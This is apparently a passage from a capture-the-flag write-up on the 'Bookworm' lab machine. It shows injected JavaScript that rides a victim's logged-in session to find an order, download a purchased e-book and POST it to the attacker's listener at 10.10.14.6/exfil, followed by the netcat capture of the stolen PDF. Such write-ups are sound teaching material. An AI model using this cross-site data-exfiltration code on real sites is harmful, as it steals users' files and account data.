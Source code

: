 I’ll try to download a file by updating my script to find the link again to get a single download link and return what it returns. I’ve updated the response to be `resp3.blob()` rather than `.text()` because I expect an e-book to be a binary format:

```

fetch('/profile', {credentials: "include"})
.then((resp) => resp.text())
.then((resptext) => {
  var match = resptext.match(/\/order\/\d+/);
  fetch(match, {credentials: "include"})
  .then((resp2) => resp2.text())
  .then((resptext2) => {
    var match2 = resptext2.match(/\/download\/\d+\?bookIds=\d+/);
    fetch(match2, {credentials: "include"})
    .then((resp3) => resp3.blob())
    .then((data) => {
      fetch("http://10.10.14.6/exfil", {
        method: "POST",
        mode: "no-cors",
        body: data
      });
    });
  });
});

```

This one returns a PDF:

```

oxdf@hacky$ nc -lnvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.11.215 33964
POST /exfil HTTP/1.1
Host: 10.10.14.6
Connection: keep-alive
Content-Length: 1006
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
Accept: */*
Origin: http://bookworm.htb
Referer: http://bookworm.htb/
Accept-Encoding: gzip, deflate

%PDF-1.3
3 0 obj
<</Type /Page
/Parent 1 0 R
/Resources 2 0 R
/Contents 4 0 R>>
endobj
4 0 obj
<</Filter /FlateDecode /Length 115>>
stream
x=̱
@E~uj8-zZ       D6_^8505O
                         @*b8ۚj!*,aێ73ڴx~2nSN^{N;gE#q=ӉQ}Q
endstream
endobj
1 0 obj
<</Type /Pages
/Kids [3 0 R ]
/Count 1
```
